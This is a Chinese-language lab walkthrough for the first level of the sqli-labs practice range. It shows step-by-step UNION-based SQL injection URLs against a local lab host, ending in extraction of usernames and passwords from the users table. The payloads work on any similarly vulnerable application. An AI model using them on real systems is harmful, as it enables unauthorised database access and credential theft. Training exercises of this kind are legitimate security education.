









# SQLI靶场
    


[](https://www.npmjs.com/package/docsify-themeable)
[](https://www.codacy.com/app/jhildenbiddle/docsify-themeable?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=jhildenbiddle/docsify-themeable&amp;utm_campaign=Badge_Grade)
[](https://github.com/jhildenbiddle/docsify-themeable/blob/master/LICENSE)
[](https://www.jsdelivr.com/package/npm/docsify-themeable)
[](https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2Fjhildenbiddle%2Fdocsify-themeable&hashtags=css,docsify,developers,frontend)
<a class="github-button" href="https://github.com/jhildenbiddle/docsify-themeable" data-icon="octicon-star" data-show-count="true" aria-label="Star jhildenbiddle/docsify-themeable on GitHub">Star</a>

## 第一关-GET – 基于错误 – 单引号 – 字符型
    可以在代码里sql语句下添加输出语句，更方便查看sql语句的效果
      
      $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
      echo "your sql statement is ".$sql."<br>";   
**1.添加id=1正常，id=1' 报错，报错，发现报错信息多出一个单引号，后面闭合语句也是用的单引号发现页面返回正常，说明是字符型注入，单引号。**
```
http://192.168.2.135/sqli/Less-1/?id=1'
```
  <figure class="thumbnails">
    
    
</figure>

**2.在url中把单引号后面的语句注释掉。 返回正常，说明sql语句执行成功了，因为条件永远为真，所以正常返回**
```  
http://192.168.2.135/sqli/Less-1/?id=1' --+ 
```

  <figure class="thumbnails">
    
    
</figure>

**3. 猜解字段数，测试到4的时候报错，说明字段数是3。**
```
http://192.168.2.135/sqli/Less-1/?id=1' order by 3--+ 
```

  <figure class="thumbnails">
    
    
</figure>

**4.确定显位数字，发现2,3均可回显**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,3--+
```

  <figure class="thumbnails">
    
    
</figure>

**5.获取当前数据库名，报错注入，数据库名为：security**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
(select database()) ,
3 --+
```

  <figure class="thumbnails">
    
    
</figure>

**65.还可以获取所有的数据库名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(schema_name) from information_schema.schemata)--+
```

  <figure class="thumbnails">
    
    
</figure>

**7.获取当前数据库security的表名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+

(security的hex编码是7365637572697479)
```

  <figure class="thumbnails">
    
    
</figure>

**8.获取表的列名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
```

  <figure class="thumbnails">
    
    
</figure>


**9.获取字段数据**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,
(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
```

  <figure class="thumbnails">
    
    
</figure>

**10.其他语句等等**

### 第一关结束！！！！


<!-- GitHub Buttons -->
<script async defer src="https://buttons.github.io/buttons.js"></script>